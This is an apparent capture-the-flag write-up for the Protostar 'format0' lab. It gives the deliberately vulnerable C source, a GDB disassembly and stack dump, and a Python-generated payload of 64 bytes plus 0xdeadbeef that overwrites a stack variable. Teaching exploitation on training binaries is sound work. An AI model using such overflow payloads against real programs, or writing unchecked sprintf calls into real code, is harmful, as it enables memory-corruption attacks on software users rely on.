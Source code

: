 ```
TL;DR -> `python -c "print 'A' * 64 + '\xef\xbe\xad\xde'"`
```

# Format0

URL: https://exploit.education/protostar/format-zero/

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

Hints

- This level should be done in less than 10 bytes of input.
- “Exploiting format string vulnerabilities”
- This level is at /opt/protostar/bin/format0

Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);

  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

# Writeup

As we can see there is a `64` bytes buffer, so let us open GDB and 65 bytes string.

```
user@protostar:/opt/protostar/bin$ gdb format0
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/format0...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
End of assembler dump.
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /opt/protostar/bin/format0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program exited normally.
(gdb) break *0x08048416
Breakpoint 1 at 0x8048416: file format0/format0.c, line 15.
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /opt/protostar/bin/format0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048416 in vuln (string=0xbffff956 'A' <repeats 64 times>) at format0/format0.c:15
15      format0/format0.c: No such file or directory.
        in format0/format0.c
(gdb) x/24x $esp
0xbffff6e0:     0xbffff6fc      0xbffff956      0x080481e8      0xbffff778
0xbffff6f0:     0xb7fffa54      0x00000000      0xb7fe1b28      0x41414141
0xbffff700:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff710:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff720:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff730:     0x41414141      0x41414141      0x41414141      0x00000000
(gdb)
```

Now, it seems pretty simple, replace the buffer with `0xdeadbeef`

Therefore, the payload will be `python -c "print 'A' * 64 + '\xef\xbe\xad\xde'"`

Solution:

```
./format0 $(python -c "print 'A' * 64 + '\xef\xbe\xad\xde'")
```

